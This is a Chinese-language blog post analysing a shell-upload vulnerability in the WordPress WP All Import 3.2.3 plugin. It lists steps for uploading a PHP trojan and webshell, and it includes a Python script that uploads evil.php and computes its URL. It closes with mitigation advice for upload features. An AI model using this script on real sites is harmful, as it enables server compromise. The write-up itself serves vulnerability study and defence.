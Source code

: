 title: Wordpress WP All Import插件漏洞分析
date: 2015-10-31 21:19:52
tags: [安全心得,入侵分析,安全事件]
---
<!--more-->
# 0x00 插件

Wordpress WP All Import 3.2.3 (Pro 4.0.3)插件主要功能是支持用户上传XML和CSV文件。一般这种支持上传功能的插件最最最危险的地方就是不做文件格式检测，或者是检测方法过弱易被绕过。
该插件上传的文件可以通过

http://"+site+"/wp-content/uploads/wpallimport/uploads/"+up_dir+"/ 路径访问。



# 0x01 利用

非常简单的利用方法：

1. 一个PHP木马（小马）
2. 找到上传插件的位置
3. 上传恶意文件
4. 访问小马，上传Shell

详细漏洞介绍：

因为该插件版本已经更新了，有问题的版本已经没法下载了。只能看别人的具体分析了。

[WordPress WP All 3.2.3 Shell Upload](https://0x9.me/hqvtU)

# 0X02 检测

写个简单的脚本就可以测试漏洞了

```
import requests,os
site=""
file_to_upload =''
up_req = requests.post('http://'+site+'/wp-admin/admin-ajax.php?page=pmxi-admin-settings&action=upload&name=evil.php',data=open(file_to_upload,'rb').read())
up_dir = os.popen('php -r "print md5(strtotime(\''+up_req.headers['date']+'\'));"').read()
print "http://"+site+"/wp-content/uploads/wpallimport/uploads/"+up_dir+"/%s" % （file_to_upload）
```

site处填域名，file_to_upload处填上传的文件名。

# 0x03 反思

很多网站都具备上传功能，支持的格式也多种多样。针对上传漏洞，解决方法个人觉得可以有以下方法：

1. 把文件上传到root目录以外的目录里（严格控制目录权限，文件权限。
2. 禁止覆盖已存在的文件
3. 严格验证文件格式
4. 随机生成上传文件名
5. 必要情况下增加上传白名单（功能只开放给某些用户）。


